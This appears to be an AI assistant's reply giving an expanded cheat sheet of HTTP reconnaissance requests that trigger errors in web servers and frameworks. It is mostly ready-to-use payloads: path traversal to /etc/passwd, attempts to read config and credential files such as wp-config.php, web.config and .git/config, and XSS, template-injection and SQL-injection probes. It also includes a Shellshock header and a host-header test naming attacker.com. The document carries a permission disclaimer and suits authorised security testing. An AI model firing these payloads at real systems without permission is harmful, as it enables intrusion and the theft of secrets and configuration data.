 Here’s an expanded version of your **error-generating payloads** for web application reconnaissance, covering additional technologies like **IIS, Nginx, Flask, Spring Boot, and more**:

---

# **Web Application Error-Generating Payloads for Reconnaissance**  

This document contains a collection of **HTTP requests** designed to trigger errors in various web technologies. These payloads help identify the **underlying server, frameworks, and potential vulnerabilities** during security assessments.  

> **⚠️ Legal & Ethical Note:**  
> - Use only on systems you **own** or have **explicit permission** to test.  
> - Error messages may expose **sensitive data** (paths, versions, configs).  

---

## **1. General Payloads (Works on Most Servers)**  

```http
GET /nonexistent-page HTTP/1.1  
Host: example.com  

GET /<script>alert(1)</script> HTTP/1.1  
Host: example.com  

GET /../../../../etc/passwd HTTP/1.1  
Host: example.com  

GET /%0a HTTP/1.1  # Newline injection  
Host: example.com  

GET /?test=${7*7} HTTP/1.1  # Expression Language (EL) test  
Host: example.com  
```

---

## **2. Apache Tomcat / Java Servers**  

```http
GET /manager/html HTTP/1.1  
Host: example.com  

GET /host-manager/html HTTP/1.1  
Host: example.com  

GET /tomcat-docs/ HTTP/1.1  
Host: example.com  

GET /examples/servlets/servlet/RequestInfoExample HTTP/1.1  
Host: example.com  

GET /nonexistent.jsp HTTP/1.1  
Host: example.com  

GET /WEB-INF/web.xml HTTP/1.1  # Attempt to access config  
Host: example.com  
```

---

## **3. Node.js / Express / NestJS**  

```http
GET /package.json HTTP/1.1  
Host: example.com  

GET /app.js HTTP/1.1  
Host: example.com  

GET /server.js HTTP/1.1  
Host: example.com  

GET /node_modules/ HTTP/1.1  
Host: example.com  

GET /api/%0a HTTP/1.1  # Newline injection  
Host: example.com  

GET /api/{{7*7}} HTTP/1.1  # SSTI test  
Host: example.com  
```

---

## **4. PHP (Laravel, WordPress, etc.)**  

```http
GET /info.php HTTP/1.1  
Host: example.com  

GET /phpinfo.php HTTP/1.1  
Host: example.com  

GET /wp-config.php HTTP/1.1  
Host: example.com  

GET /index.php?-s  # Source code disclosure  
Host: example.com  

GET /index.php?=PHPE9568F36-D428-11d2-A769-00AA001ACF42  # PHP Easter Egg  
Host: example.com  

GET /?a=1&b[]=2  # Array parameter (may trigger errors)  
Host: example.com  
```

---

## **5. Ruby on Rails**  

```http
GET /rails/info/routes HTTP/1.1  
Host: example.com  

GET /rails/info/properties HTTP/1.1  
Host: example.com  

GET /assets/rails.png HTTP/1.1  
Host: example.com  

GET /users/1,2,3,4,5  # Mass assignment test  
Host: example.com  

GET /users?sort[]=name&sort[]=email  # SQL injection test  
Host: example.com  

GET /?test=<%= 7*7 %>  # ERB SSTI test  
Host: example.com  
```

---

## **6. ASP.NET / IIS**  

```http
GET /web.config HTTP/1.1  
Host: example.com  

GET /trace.axd HTTP/1.1  
Host: example.com  

GET /elmah.axd HTTP/1.1  
Host: example.com  

GET /default.aspx?aspxerrorpath=/  
Host: example.com  

GET /__browserLink/requestData  
Host: example.com  

GET /?test=@(7*7)  # Razor SSTI test  
Host: example.com  
```

---

## **7. Django / Flask (Python)**  

```http
GET /admin/ HTTP/1.1  
Host: example.com  

GET /static/admin/ HTTP/1.1  
Host: example.com  

GET /__debug__/ HTTP/1.1  
Host: example.com  

GET /manage.py HTTP/1.1  
Host: example.com  

GET /settings.py HTTP/1.1  
Host: example.com  

GET /?test={{7*7}}  # Jinja2 SSTI test  
Host: example.com  
```

---

## **8. Nginx / Lighttpd**  

```http
GET /nginx-status HTTP/1.1  
Host: example.com  

GET /server-status HTTP/1.1  
Host: example.com  

GET /.git/config HTTP/1.1  # Git config leak  
Host: example.com  

GET /%2e%2e/%2e%2e/etc/passwd  # Path traversal  
Host: example.com  
```

---

## **9. Spring Boot (Java)**  

```http
GET /actuator/health HTTP/1.1  
Host: example.com  

GET /actuator/env HTTP/1.1  
Host: example.com  

GET /v2/api-docs HTTP/1.1  
Host: example.com  

GET /swagger-ui.html HTTP/1.1  
Host: example.com  

GET /?test=*{7*7}  # SpEL Injection  
Host: example.com  
```

---

## **10. Additional Checks**  

### **Database Errors (SQL Injection Probes)**  
```http
GET /users?id=1' HTTP/1.1  
Host: example.com  

GET /products?id=1 AND 1=CONVERT(int,@@version)--  
Host: example.com  
```

### **HTTP Header Manipulation**  
```http
GET / HTTP/1.1  
Host: example.com  
X-Forwarded-Host: attacker.com  

GET / HTTP/1.1  
Host: example.com  
User-Agent: () { :; }; echo 'Vulnerable'  
```

---

## **Final Notes**  
✅ **Analyze error responses** for:  
- **Server banners** (Apache/2.4.41, nginx/1.18.0)  
- **Framework versions** (Django 3.1, PHP 8.0)  
- **Path disclosures** (`/var/www/html/config.php`)  
- **Stack traces** (Node.js, Java exceptions)  

🚨 **Use responsibly!** Unauthorized testing may be illegal.  

---

Would you like any **additional payloads** for specific frameworks (e.g., **FastAPI, Deno, ColdFusion**)? Let me know! 🚀